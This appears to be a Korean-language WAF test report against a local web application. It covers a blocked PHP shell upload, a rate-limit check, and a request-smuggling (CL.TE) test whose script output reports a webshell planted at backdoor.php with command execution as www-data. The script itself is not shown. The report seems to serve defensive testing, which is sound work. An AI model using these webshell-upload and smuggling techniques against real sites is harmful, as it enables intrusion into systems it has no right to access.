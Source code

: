 ### 시도
```bash
curl -F "image=@shell.php" http://localhost:9000/api/submit_inquiry.php
```

### 결과
```
HTTP/1.1 403 Forbidden
ModSecurity: Access denied with code 403 (phase 2).
Pattern match "\.php$" at FILES_NAMES.
[id "999004"] [msg "PHP File Upload Blocked"]
```

**평가**: ✅ WAF 정상 작동

---

## 테스트 2: Request Smuggling (WAF 우회)

### 시도
```bash
python3 smuggle_webshell.py
```

### 결과
```
[+] ✅ Webshell uploaded successfully!
[+] Webshell URL: http://localhost:9000/uploads/backdoor.php
[+] Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**평가**: ⚠️ WAF 우회 성공 (CL.TE 취약점)

---

## 테스트 3: Rate Limiting

### 시도
```bash
for i in {1..15}; do
  curl -X POST http://localhost:9000/api/submit_inquiry.php \
    -F "name=test" -F "email=test@test.com" \
    -F "phone=010-1234-5678" -F "category=technical" \
    -F "subject=test" -F "message=test"
  echo "Request $i"
done
```

### 결과
```
Request 1-10: 200 OK
Request 11-15: 403 Forbidden (Rate Limit Exceeded)
```
